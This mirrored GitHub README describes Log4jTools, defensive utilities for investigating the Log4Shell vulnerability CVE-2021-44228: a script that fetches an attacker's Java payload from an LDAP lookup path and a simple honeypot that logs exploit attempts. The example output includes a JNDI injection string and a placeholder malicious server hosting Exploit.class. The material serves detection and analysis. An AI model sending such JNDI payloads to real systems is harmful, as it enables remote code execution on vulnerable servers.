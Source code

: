 # Log4jTools

Tools for investigating Log4j CVE-2021-44228

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/MalwareTech](https://github.com/MalwareTech) |
| Url      | [https://github.com/MalwareTech/Log4jTools](https://github.com/MalwareTech/Log4jTools)                                               |
| Stars    | 92                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# Log4jTools
Tools for investigating Log4j CVE-2021-44228

## Bug explanation and Demo
https://www.youtube.com/watch?v=0-abhd-CLwQ

## FetchPayload.py (Get java payload from ldap path provided in JNDI lookup).
Requirements: curl (system), requests (python)

Example command:
```
python FetchPayload.py ldap://maliciouserver:1337/path

[+] getting object from ldap://maliciouserver:1337/path
[+] exploit payload: http://maliciouserver:80/Exploit.class
[+] seeing if attacker left behind un-compile payload http://maliciouserver:80/Exploit.java
[x] failed to find payload Exploit.java
[+] trying to fetch compiled payload http://maliciouserver:80/Exploit.class
[+] found payload and saved to file Exploit.class_
```

## SimpleHoneypot.py (honeypot to catch exploit attempts based on presence of '${' ).
Requirements: python3, asyncore

Example command:
```
python3 SimpleHoneypot.py

[2021-12-09 13:00:00,000] Possible CVE-2021-44228 Attempt: 127.0.0.1:1111 -> port 8080 - GET /?id=${jdni:ldap://127.0.0.1:1389/hax} HTTP/1.1



## Get the content

```
git clone https://github.com/MalwareTech/Log4jTools
cd Log4jTools
```

{% embed url="https://github.com/MalwareTech/Log4jTools" %}

<figure><img src="https://avatars.githubusercontent.com/u/7256561?v=4" alt=""><figcaption><p>MalwareTech</p></figcaption></figure>
